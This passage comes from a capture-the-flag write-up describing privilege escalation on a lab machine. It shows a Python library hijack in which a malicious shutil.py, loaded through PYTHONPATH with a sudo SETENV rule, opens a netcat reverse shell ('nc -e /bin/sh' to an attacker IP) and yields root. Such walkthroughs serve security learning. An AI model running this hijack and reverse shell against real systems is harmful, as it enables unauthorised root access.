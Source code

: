 ```
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```

I thought about using a path hijacking with `echo`, as it was the only command that wasn't using an absolute path, but then realised it could actually never work because of the fact that when running as sudo the path will be changed.

I kept reading and found the following line: `/opt/scripts/backup.py &`. It seemed interesting, as in the past I've had privilege escalations with Python import libraries hijackings.

```
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

Now, it took me a bit to put everything together and see how it fit. Turns out that the `SETENV` directive expects us to pass some variable to the program being run as sudo so we can actually pass a `PYTHONPATH` variable pointing to a directory where we have a malicious `shutil.py` with a function called `make_archieve`.

```bash
waldo@admirer:/tmp$ cat shutil.py
def make_archive(a,b,c):
	__import__('os').system('nc -e /bin/sh 10.10.15.101 1234')
```

Then we run `sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh` and we get root.

*Root command execution*

![Img](images/root.png)
